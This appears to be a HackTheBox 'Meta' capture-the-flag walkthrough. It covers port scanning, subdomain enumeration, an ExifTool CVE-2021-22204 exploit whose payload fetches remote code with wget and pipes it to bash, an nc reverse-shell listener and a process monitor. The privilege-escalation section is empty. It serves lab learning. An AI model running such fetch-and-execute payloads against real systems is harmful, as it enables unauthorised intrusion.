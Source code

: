 ```yaml
---
title: HackTheBox - Meta
categories: htb 
excerpt: | 
   Meta is a medium difficulty Linux machine.

feature_text: |
  ## Meta - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have a simple page in production phase, but it seems like it hasn't any mistake. Let's turn to subdomains enumeration to enumerate others existing virtual hosts.
```
sudo gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://artcorp.htb -t 200
```

There is a new subdomain: dev01.artcorp.htb add it to the /etc/hosts. Here is an image uploader which seems to use an application to extract all metadata from your image.

Exif Tool: An utility to extract all metadata from an image input.

### Exploit vulnerabilities
Looking for an exploit of this utility, we will find a CVE on [AssassinUKG's](https://github.com/AssassinUKG/CVE-2021-22204) github profile.

It will create a new metadata with a command in base64. ExifTool will interprete it as a php code. 
```
sudo ./exploit.sh "system('wget -qO- http://<tu_ip> | bash')" happy.jpg
```
You have to create a shared service with python `python3 -m http.server 80` and listen at 443 port `rlwrap nc -lnvp 443` to receive an interactive console.

### Migrating of user


```
#!/bin/bash
process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$process") <(echo "$new_process") | grep "[\<\>]" | grep -vE "procmon|command|kworker"
        process=$new_process
done
```
>\> /bin/sh -c /usr/local/bin/convert\_images.sh
It is a script that use mogrify: Version: ImageMagick 7.0.10-36
### Privilege Scalation


Et voilà! Congratulations 

